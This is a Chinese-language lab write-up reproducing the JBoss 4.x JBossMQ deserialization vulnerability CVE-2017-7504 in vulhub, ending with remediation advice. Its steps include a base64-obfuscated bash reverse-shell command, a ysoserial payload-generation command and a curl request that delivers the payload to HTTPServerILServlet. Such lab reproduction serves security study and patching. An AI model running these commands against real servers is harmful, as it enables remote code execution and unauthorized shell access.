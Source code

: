 # JBoss 4.x JBossMQ JMS 反序列化漏洞（CVE-2017-7504）

### 0x00 简介

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

### 0x01 环境搭建

使用vulhub搭建环境`jboss/CVE-2017-7504`

![image-20230412153049744](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412153049744.png)

访问`http://your-ip:8080/`即可看到JBoss默认页面。

### 0x02 POC/EXP脚本

cve_2017_7504_poc.py: `https://github.com/lcyunkong/pochub/blob/main/pochub/poc_list/web/JBoss/cve_2017_7504_poc.py`

```python
# 利用：
# 在代码最后传入目标url即可，实例：
vuln_scan_start("http://192.168.12.130:8090")
```

cve_2017_7504_poc.py: `https://github.com/lcyunkong/pochub/blob/main/pochub/poc_list/web/JBoss/cve_2017_7504_cmd.py`

```python
# 利用：
# 在代码最后传入目标url和想要操作的命令即可，实例：
vuln_exploit_start('http://192.168.12.130:8080', 'touch /tmp/asfasfa')
```

### 0x03 复现步骤

1、访问地址，出现下面页面说明漏洞存在

```
http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet
```

![image-20230412165139342](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412165139342.png)

2、反弹shell命令

```shell
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}
```

3、借助ysoserial的eCommonsCollections5利用链来生成序列化数据

```
java -jar ysoserial-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}" > poc.ser
```

4、将生成的序列化数据发送至/jbossmq-httpil/HTTPServerILServlet，获取shell

```
curl http://192.168.12.130:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @poc.ser
```

![image-20230412165630277](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412165630277.png)

### 0x04 修复建议

1、因为这类的反序列化都依赖于InvokerTransformer类。如果用户在正常业务中不使用此类，可以将此类移除。方法为使用Winzip打开jar文件，在org/apache/commons/collections/functors/InvokerTransformer.class删除该文件。

2、或者升级JBoss到最新版本。

